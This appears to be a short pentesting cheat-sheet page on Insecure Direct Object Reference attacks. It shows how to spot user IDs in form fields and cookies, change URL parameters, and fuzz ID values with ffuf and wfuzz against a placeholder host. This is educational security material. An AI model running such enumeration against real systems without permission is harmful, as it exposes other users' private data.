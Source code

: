 ```yaml
---
title: Insecure Direct Object References (IDOR) Attack
desc: 
tags: [Burp Suite, Ffuf, Hydra, IDOR, Web, Wfuzz]
alts: [API-Pentesting]
render_with_liquid: false
---
```


## 1. Find the Vulnerabilities from HTML Source Code

1. **Check the Names and Values of Input Form**

    ```html
    <input name="user_id" value="8" >
    ```

2. **Try What Happens When You Change the Cookie Value**

    ```
    Cookie: user_id=12
    ```

<br />

## 2. Change URL Parameters

1. **Manual Changing**

    ```sh
    /user?id=1
    /user?id=2

    /admin/posts/1
    /john/posts/1

    /static/1.txt
    /static/2.txt
    ```

2. **Fuzzing with Tools**

    ```sh
    ffuf -s -w numbers.txt -u http://vulnerable.com/user?id=FUZZ
    # -fs: Filter HTTP response size
    ffuf -s -w numbers.txt -u http://vulnerable.com/user?id=FUZZ -fs 439

    wfuzz -z file,./numbers.txt http://vulnerable.com/user?id=FUZZ
    ```
